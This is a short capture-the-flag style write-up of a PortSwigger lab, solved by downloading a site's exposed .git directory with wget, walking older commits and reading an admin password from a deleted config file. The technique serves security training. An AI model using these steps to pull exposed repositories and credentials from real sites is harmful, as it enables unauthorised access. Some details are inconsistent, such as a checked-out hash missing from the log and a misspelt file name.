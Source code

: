 # [Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete the user `carlos`.

---
## Solution
- `wget -r https://0aed00d90314137687bb307c00560089.web-security-academy.net/.git`


- `git log`
```sh
commit 46f2ef4e75a1747472baffeef381fccc4f71280f (HEAD, master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit b70bf7b71625e26ccfe4daed2521b41a146c8db8
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
- `git checkout c7e74d2af982ca99c7e093867f5966314598d416`
- `git status`
```bash
HEAD detached at c7e74d2
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
- In the latest commit data has been changed and removed too, so we to check older commit
- `git checkout b70bf7b71625e26ccfe4daed2521b41a146c8db8`
- `ls`
	- `admin.cong`
- `cat admin.conf`
	- `ADMIN_PASSWORD=env('cl6pyi03piqkkij5u6et')`
